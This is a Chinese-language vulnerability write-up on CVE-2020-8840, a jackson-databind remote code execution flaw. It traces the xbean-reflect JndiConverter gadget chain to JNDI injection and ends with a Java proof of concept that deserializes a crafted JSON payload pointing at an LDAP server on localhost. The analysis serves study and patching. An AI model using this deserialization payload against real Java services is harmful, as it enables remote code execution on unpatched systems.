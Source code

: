 # （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2930](https://www.zhihuifly.com/t/topic/2930)

# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson v1.2.62版本

## 三、复现过程

可以在git提交记录中清楚看到利用的具体类

![image](img/8b000d33e4f4131c2c4d329e73daadb3.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![image](img/efd24da3f1668d295eda6e504d8cf575.png)

随后跟进`toObject()`函数

![image](img/854b733b32ccc1530ad0fc4e3a7b190c.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![image](img/abfad8319c41a0b9284f16f795032d43.png)

此时出现经典的JNDI注入，text 刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![image](img/4156a3a00b6e13b7a686abe538de6df3.png)

### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {

public static void main(String args[]) {

ObjectMapper mapper = new ObjectMapper();

```
 mapper.enableDefaultTyping();

    String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

    try {
        mapper.readValue(json, Object.class);
    } catch (IOException e) {
        e.printStackTrace();
    }

} 
``` `}` 
```